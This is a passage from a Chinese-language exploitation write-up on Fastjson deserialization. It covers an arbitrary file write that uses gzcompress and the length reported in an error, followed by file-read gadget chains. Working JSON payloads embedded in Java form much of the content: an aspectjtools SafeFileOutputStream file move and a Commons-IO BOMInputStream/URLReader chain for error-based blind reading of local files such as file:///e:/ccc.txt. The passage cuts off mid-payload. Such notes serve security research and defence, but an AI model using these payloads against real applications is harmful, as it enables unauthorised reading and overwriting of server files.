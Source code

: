 gzcompress中传入需要写入的数据，区别于单纯base64编码数据，测试只能通过这种方式经压缩算法压缩后写入到文件。随后是修改limit处，与之前为原始数据长度不同，这里会有一点偏差， 他往往会比真实长度要短。例如我这里要写入的数据为`qwerasdf`,对应长度为8，但写上8会发现写入到文件中是错误的甚至为空。
这里解决方式是利用报错，先适当写入比原始长度更长的数据，如20(测试发现尽量为2倍)，同时在报错中会给出真实数据容量。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692000643467-53f6fc2c-49b6-4f87-8382-3fcb02c5508e.png#averageHue=%2334302e&clientId=u8125b4ab-9c9f-4&from=paste&height=66&id=u3d42965f&originHeight=82&originWidth=944&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25213&status=done&style=none&taskId=u3a0b0003-9533-45a1-abbf-e7b3a56a9c7&title=&width=755.2)
真实环境测试：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692000728791-d8d0f7a0-8e95-4d86-8929-7499e8f0910e.png#averageHue=%23fdfcfc&clientId=u8125b4ab-9c9f-4&from=paste&height=406&id=u2b6c9cb4&originHeight=508&originWidth=1286&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=133118&status=done&style=none&taskId=u4b537159-fa7b-4e68-846b-71272011ef9&title=&width=1028.8)
409才是对应的真实数据容量
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692000759992-ed7300d2-92b4-4f1d-a096-7495867188fc.png#averageHue=%23fdfdfc&clientId=u8125b4ab-9c9f-4&from=paste&height=301&id=ucf3f9920&originHeight=376&originWidth=1044&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=105897&status=done&style=none&taskId=u606101cc-4992-421c-827f-213eb9766e0&title=&width=835.2)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692000832343-7014b577-f31d-47f5-ad19-8b9e1ce1a84f.png#averageHue=%233b434c&clientId=u8125b4ab-9c9f-4&from=paste&height=270&id=u0c0d06c4&originHeight=337&originWidth=952&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47094&status=done&style=none&taskId=ua28fe5fe-1e33-4d84-bdf0-0fadf595f9a&title=&width=761.6)
[https://www.ctfiot.com/53462.html](https://www.ctfiot.com/53462.html)
[https://threedr3am.github.io/2021/04/14/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84SpringBoot%20RCE/](https://threedr3am.github.io/2021/04/14/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84SpringBoot%20RCE/)
[https://forum.butian.net/share/1623](https://forum.butian.net/share/1623)
[https://paper.seebug.org/1698/#4](https://paper.seebug.org/1698/#4)
[https://mp.weixin.qq.com/s/WbYi7lPEvFg-vAUB4Nlvew](https://mp.weixin.qq.com/s/WbYi7lPEvFg-vAUB4Nlvew)
## 读文件利用
### aspectjtools
```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjtools</artifactId>
    <version>1.5.4</version>
</dependency>
```
虽然可做到读文件，但实际上是文件迁移，将会清空temp文件，写入到target中，所以，慎用！
```java
//temppath存在，targetpath不存在，则将temp文件写入target
String poc3 = "{\n" +
        "    \"@type\": \"java.lang.AutoCloseable\",\n" +
        "    \"@type\": \"org.eclipse.core.internal.localstore.SafeFileOutputStream\",\n" +
        "    \"targetPath\": \"./bbbbbbb.txt\",\n" +
        "    \"tempPath\": \"e:/aaa.txt\"\n" +
        "}";
```
### Commons-IO - 报错
相较于上一种利用更加广泛，引入的依赖更加常见。
```xml
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.6</version>
</dependency>
```
类似于SQL的报错布尔盲注，根据报错信息不同判断文件内容。
后续脚本或burp爆破即可。
```java
//commons-io 报错盲注
 String poc2 =  "{\n" +
         "    \"abc\": {\n" +
         "\t\t\t\t\"@type\": \"java.lang.AutoCloseable\",\n" +
         "        \"@type\": \"org.apache.commons.io.input.BOMInputStream\",\n" +
         "        \"delegate\": {\n" +
         "            \"@type\": \"org.apache.commons.io.input.ReaderInputStream\",\n" +
         "            \"reader\": {\n" +
         "                \"@type\": \"jdk.nashorn.api.scripting.URLReader\",\n" +
         "                \"url\": \"file:///e:/ccc.txt\"\n" +  //待读取的文件内容
         "            },\n" +
         "            \"charsetName\": \"UTF-8\",\n" +
```